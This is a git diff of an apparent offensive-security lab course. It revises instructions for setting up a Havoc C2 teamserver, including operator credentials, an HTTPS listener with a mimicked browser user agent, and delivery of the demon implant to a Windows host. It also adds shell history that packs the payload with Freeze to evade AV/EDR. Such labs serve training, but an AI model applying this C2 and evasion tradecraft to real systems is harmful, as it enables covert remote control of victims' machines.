

update

diff --git a/src/havoc.md b/src/havoc.md
@@ -62,15 +62,17 @@ make client-build
 ```
 
 # Creating a custom profile
-Let's have a look at the custom profile we have created for this team server. The profile will have the general settings such as users that can log in to the team server, user agents for HTTP/HTTPs listeners, and how our implants will behave.
+Let's have a look at the default profile provided for this team server. The profile will have the general settings such as users that can log in to the team server, user agents for HTTP/HTTPs listeners, and how our implants will behave.
 
-> ***OPSEC HINT*** : Always customize your profiles as default profiles are almost often finger printed by AV/EDR.
+> ***OPSEC HINT*** : Always customize your profiles as default profiles are almost often finger-printed by AV/EDR, we will do this later on
 
 ```bash
+cd /opt/Havoc/profiles
+cp havoc.yaotl custom.yaotl
 sudo nano /opt/Havoc/profiles/custom.yaotl
 ```
 
-This is the content of the `custom.yoatl` profile:
+This is the content of the `custom.yaotl` profile:
 
 ```yaml
 Teamserver {
@@ -78,85 +80,59 @@ Teamserver {
     Port = 40056
 
     Build {
-        Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc" #latest version of kali this needs to be replaced
+        Compiler64 = "data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
+        Compiler86 = "data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc"
         Nasm = "/usr/bin/nasm"
     }
 }
 
 Operators {
-    user "Threatadmin" {
-        Password = "Threathunt25"
+    user "Threatadmin" {             # We added this account for our labs
+        Password = "Threathunt25"    # and this is the password
+    }
+
+    user "Neo" {
+        Password = "password1234"
     }
 }
 
-# demon setting.
+# this is optional. if you dont use it you can remove it.
+Service {
+    Endpoint = "service-endpoint"
+    Password = "service-password"
+}
 
 Demon {
     Sleep = 2
-    Jitter = 20
+    Jitter = 15
 
     TrustXForwardedFor = false
 
     Injection {
-        Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
-    }
-
-    Binary {
-        ReplaceStrings-x64 = {
-            "demon.x64.dll": "",
-            "This program cannot be run in DOS mode.": "",
-        }
+        Spawn64 = "C:\\Windows\\System32\\notepad.exe"
+        Spawn32 = "C:\\Windows\\SysWOW64\\notepad.exe"
     }
 }
+
 ```
 
 # Running the teamserver
 
 ![Screenshot](./images/havoc_team.jpg)
 ```bash
-havoc server --profile /opt/Havoc/profiles/custom.yoatl -v --debug
+cd /opt/Havoc
+./havoc server --profile /opt/Havoc/profiles/custom.yaotl -v --debug
 ```
 
-Let's set thsis up as a service:
-
-```bash
-sudo nano /lib/systemd/system/havocservice.service
-```
-
-```yaml
-[Unit]
-Description=HavocServer
-After=network.target
-
-[Service]
-Type=idle
-Restart=on-failure
-User=root
-ExecStart="/usr/bin/havoc" "server" "--profile" "/opt/havoc/profiles/https.yaotl"
-
-[Install]
-
-```
-
-Change the file permisions, enable and start the service:
-
-```
-sudo chmod 644 /lib/systemd/system/
-sudo systemctl daemon-reload
-enable havocserver.service
-sudo systemctl start havocserver.service 
-systemctl status havocserver.service
-"
-```
 # Running the client
 
 ![Screenshot](./images/havoc_newtab.jpg)
 
 In your terminal open a new tab, then run the following command:
 
-
-```code
-havoc client
+```bash
+cd /opt/Havoc
+./havoc client
 ```
 We can now log in to our teamserver using the user `Threatadmin` and the password which we defined in the custom Havoc C2 profile.
 
@@ -176,7 +152,7 @@ Here's a regular chrome user agent from your windows machine:
 ```yaml
 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
 ```
-Let's add an HTTPs listener, click on `Add` and enter the listener configuration. Give the listener a name, select `Https` and past the user agent in the correct field. Click on `Save`
+Let's add an HTTPs listener, click on `Add` and enter the listener configuration. Give the listener a name, select `HTTPS` and paste the user agent in the correct field. Click on `Save`
 
 > Make sure you select the correct IP addres (host) for your machine! You can double check by running ifconfig.
 
@@ -186,10 +162,12 @@ Let's add an HTTPs listener, click on `Add` and enter the listener configuration
 
 We can also add this to our Havoc profile, so that all these settings are applied when starting the team server. But before we do that, lets keep our OPSEC in mind, we need HTTPS - and we bettter not use the default SSL certificates, those might be signatured. 
 
+> ***IMPORTANT*** : Before continuing - delete the listener we just created, as we'll create one in our custom HTTPS profile next. In Havoc go to VIEW - LISTENERS - Select your listener - "REMOVE".
+
 Next we're going to create a self-signed SSL certificate (PEM) and key file - Self signed certificates are of course not ideal - in a real world scenario we'd have them signed by a trusted PKI.
 
 ```bash
-cd /opt/havoc/
+cd /opt/Havoc/
 mkdir certs
 cd certs
 openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out public.crt -keyout private.key
@@ -198,15 +176,14 @@ Output:
 
 ![Screenshot](./images/havoc_certs.jpg)
 
-Let's copy the custom.yoatl profile to a new HTTPS template where we'll add the certs, user-agent, listener settings and so on
+Let's create new HTTPS template where we'll add the certs, user-agent, listener settings and so on.
 
 ```bash
-cd /opt/havoc/profiles
-sudo cp custom.yoatl https.yoatl
-sudo nano /opt/Havoc/profiles/custom.yaotl
+cd /opt/Havoc/profiles
+sudo nano /opt/Havoc/profiles/HTTPS.yaotl
 ```
 
-This is the new content of the custom `HTTPS.yoatl` profile:
+Copy the below into your `HTTPS.yaotl` profile:
 
 ```yaml
 Teamserver {
@@ -214,11 +191,12 @@ Teamserver {
     Port = 40056
 
     Build {
-        Compiler64 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
-        Compiler86 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
+        Compiler64 = "data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
+        Compiler86 = "data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc"
         Nasm = "/usr/bin/nasm"
     }
 }
+
 
 Operators {
     user "Threatadmin" {
@@ -241,8 +219,8 @@ Listeners {
         Secure       = true
         UserAgent    = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36"
         Cert {
-                Cert = "/opt/havoc/certs/public.crt"
-                Key = "/opt/havoc/certs/private.key"
+                Cert = "/opt/Havoc/certs/public.crt"
+                Key = "/opt/Havoc/certs/private.key"
         }
      }
 }
@@ -271,13 +249,14 @@ Demon {
 Now close your Havoc Teamserver and client in terminal (control-c) and start the teamserver again with your new profile:
 
 ```bash
-havoc server --profile /opt/havoc/profiles/https.yoatl -v --debug
+cd /opt/Havoc
+./havoc server --profile /opt/havoc/profiles/HTTPS.yaotl -v --debug
 ```
 
 Open a second tab in your terminal and run:
 
 ```bash 
-havoc client
+./havoc client
 ```
 
 Let's go and check if our profile has created the HTTPS listener - in the Havoc client go to `VIEW`, `Listeners`, select the HTTPs Listener and click on edit. You'll see the following (please note the host bind address will be different from the screenshot).
@@ -301,7 +280,7 @@ updog2
 
 ![Screenshot](./images/havoc_kaliupdog.jpg)
 
-Now, on your windows machine use `Chrome` and go to <http:\\kali:9090\> and download the Havoc demon ("**demon.x64.exe**") to 
+Now, on your windows machine use `Chrome` and go to <http:\\kali:9090\> and download the Havoc demon ("**demon.x64.exe**") to "C:\Temp" - right-click on demon.x64.exe, save link as
 
 > ***NOTE***: "C:\Temp" is is whitelisted in MS Defender, we will deal with AV Evasion later on, for now we just want to make sure our code executes and sets up a c2 connection.
 

diff --git a/src/privesc_extra.md b/src/privesc_extra.md
@@ -1,9 +1,5 @@
 # Additional PrivEsc
 
-
-
-
-
 # SCHEDULED TASKS
 
 ```powershell
@@ -115,4 +111,26 @@ edit .csproj and replace the nuget line
 
 ```xml
 <Import Project="$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets" Condition="Exists('$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets')" />
+```
+
+# OPTIVE FREEZE
+
+```bash
+sudo git clone https://github.com/Tylous/Freeze.git
+   81  ls
+   82  cd Freeze
+   83  go build Freeze.go
+   84  sudo go build Freeze.go
+   85  ls
+   86  ./Freeze
+   87  ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O /opt/Havoc/payloads/demon.frozen.x64.exe
+   88  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O /opt/Havoc/payloads/demon.frozen.x64.exe
+   89  go install mvdan.cc/garble@latest
+   90  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O /opt/Havoc/payloads/demon.frozen.x64.exe
+   91  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O demon.frozen.x64.exe
+   92  go get golang.org/x/sys/windows
+   93  sudo go get golang.org/x/sys/windows
+   94  ls
+   95  sudo ./Freeze -I /opt/Havoc/payloads/demon.x64.bin -encrypt -O demon.frozen.x64.exe
+   96  ls -lah
 ```

diff --git a/src/SUMMARY.md b/src/SUMMARY.md
@@ -5,8 +5,6 @@
   - [Havoc C2](./havoc.md)
   - [Processes, Tokens & DLL's](./processes.md)
   - [Privilege Escalation](./privesc.md)
-    - [DLL Hijacking/Sideloading](./dll_hijack.md)
-      - [Lab DLL Hijacking](./lab_dll_hijack.md) 
     - [Unquoted Service Path](./unquoted.md)
       - [Lab - PrivEsc](./lab_privesc.md) 
     - [UAC Bypass](./uac.md)
@@ -28,6 +26,8 @@
     - [Lab - Havoc dotnet execute](./lab_havoc_dotnet.md)
     - [Forensics](./lab_staticforensics.md)
   - [WIN32api and Functions](./functions.md)
+  - [Code Execution](./dll_hijack.md)
+    - [Lab DLL Hijacking](./lab_dll_hijack.md) 
   - [Shellcode](./shellcode.md)
     - [Lab - Shellcode](./lab_shellcode.md)
     - [Lab - Basic Loader](./lab_basic.md)

diff --git a/src/havoc_extra.md b/src/havoc_extra.md
@@ -30,3 +30,36 @@ Build {
         Nasm = "/usr/bin/nasm"
     }
 ```
+
+----
+Let's set thsis up as a service:
+
+```bash
+sudo nano /lib/systemd/system/havocservice.service
+```
+
+```yaml
+[Unit]
+Description=HavocServer
+After=network.target
+
+[Service]
+Type=idle
+Restart=on-failure
+User=root
+ExecStart="/usr/bin/havoc" "server" "--profile" "/opt/havoc/profiles/https.yaotl"
+
+[Install]
+
+```
+
+Change the file permisions, enable and start the service:
+
+```
+sudo chmod 644 /lib/systemd/system/
+sudo systemctl daemon-reload
+enable havocserver.service
+sudo systemctl start havocserver.service 
+systemctl status havocserver.service
+"
+```
